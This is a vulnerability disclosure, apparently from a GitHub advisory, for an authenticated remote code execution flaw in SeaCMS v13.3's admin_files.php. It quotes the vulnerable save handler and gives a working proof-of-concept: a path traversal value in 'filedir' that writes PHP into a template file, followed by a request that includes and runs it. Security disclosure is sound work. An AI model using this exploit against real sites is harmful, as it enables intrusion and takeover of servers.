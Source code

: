 ## admin_files.php RCE

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability arises because although `admin_files.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code using path traversal, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)
### Vulnerability Analysis and Exploitation

The vulnerable code is located in `0omeqd/admin_files.php`. When the `action=save` parameter is passed, there is no path traversal check, allowing an attacker to write files such as `0omeqd/templets/admin_files.htm`. This can be done by passing the following parameters:
- `filedir=../uploads/../0omeqd/templets/admin_files.htm`
- `content=<?php phpinfo();?>`

```php
elseif($action=='save')  
{  
    if($filedir == '')  
    {  
       ShowMsg('未指定要编辑的文件或文件名不合法', '-1');  
       exit();  
    }  
    if(substr(strtolower($filedir),0,$dirlen)!=$dirTemplate){  
       ShowMsg("只允许编辑附件目录！","admin_files.php");  
       exit;  
    }  
    $filetype=getfileextend($filedir);  
    if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")  
    {  
       ShowMsg("操作被禁止！","admin_files.php");  
       exit;  
    }  
    $folder=substr($filedir,0,strrpos($filedir,'/'));  
    if(!is_dir($folder)){  
       ShowMsg("目录不存在！","admin_files.php");  
       exit;  
    }  
    $content = stripslashes($content);  
    $content = m_eregi_replace("##textarea","<textarea",$content);  
    $content = m_eregi_replace("##/textarea","</textarea",$content);  
    $content = m_eregi_replace("##form","<form",$content);  
    $content = m_eregi_replace("##/form","</form",$content);  
    createTextFile($content,$filedir);  
    ShowMsg("操作成功！","admin_files.php?path=".$folder);  
    exit;  
}
```

When the parameter `action=custom` is passed, the file `0omeqd/templets/admin_files.htm` is included.
![](./public/5-1.png)

#### Exploitation POC

An attacker can send the following request to achieve remote code execution:
```
POST /0omeqd/admin_files.php?action=save HTTP/1.1


content=<?php+phpinfo();?>&filedir=../uploads/../0omeqd/templets/admin_files.htm&Submit=%E4%BF%AE%E6%94%B9%E6%96%87%E4%BB%B6
```
![](./public/5-3.png)


**Payload:**
```
filedir=../uploads/../0omeqd/templets/admin_files.htm
content=<?php phpinfo();?>
```

After injecting the payload, the file can be accessed via the following URL to trigger file inclusion and achieve RCE:

```r
0omeqd/admin_files.php?action=custom
```
![](./public/5-2.png)
